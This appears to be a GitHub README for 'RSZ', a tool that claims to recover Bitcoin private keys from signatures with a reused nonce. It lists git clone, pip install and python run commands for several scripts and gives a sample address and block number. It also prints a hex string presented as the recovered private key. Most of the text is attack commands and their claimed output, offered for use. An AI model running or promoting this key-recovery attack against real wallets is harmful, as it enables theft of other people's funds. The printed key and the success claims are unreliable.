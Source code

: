 # RSZ
BITCOIN RSZ VULNERABILITY TO PRIVETKEY 
```bash
git clone https://github.com/Cryptographytube/RSZ
cd RSZ
pip install -r requirements.txt
python3 btc_block_explorer.py
```
E.G Enter Bitcoin address: 1BFhrfTTZP3Nw4BNy4eX4KFLsn9ZeijcMm

![IMG_20250117_143603](https://github.com/user-attachments/assets/a7536044-3ab8-48fb-8d81-3b2fb50489ea)
```bash
python3 RSZ-BLOCK-PRIVATEKEY.py
```
RSZ Vulnerability Block Number
E.G Enter block number: 170399

![IMG_20250117_144500](https://github.com/user-attachments/assets/3bd2f8f7-6e7f-4150-8d14-bfcc86177d70)

FOUND PRIVETKEY

![IMG_20250117_145628](https://github.com/user-attachments/assets/a4bdeb41-6a3b-4f9d-8ea2-1cf571beebe1)

Found Private Key
0xc477f9f65c22cce20657faa5b2d1d8122336f851a508a1ed04e479c34985bf96

PRIVETKEY REAL PRIVETKEY CONVERTED
```bash
python3 key_to_address.py
```
Enter Private Key (Hex) : 0xc477f9f65c22cce20657faa5b2d1d8122336f851a508a1ed04e479c34985bf96

![IMG_20250117_150257](https://github.com/user-attachments/assets/3272f26c-e826-4374-94f5-a5d78fad865d)
Found Private Key
![IMG_20250117_151040](https://github.com/user-attachments/assets/6586f6b1-c49a-4295-a587-aa5c13ddefb9)


Real Private key : c477f9f65c22cce20657faa5b2d1d8122336f851a508a1ed04e479c34985bf96

![IMG_20250117_151442](https://github.com/user-attachments/assets/c1155b7e-bd8e-424a-ac16-a7ad1ad78b75)




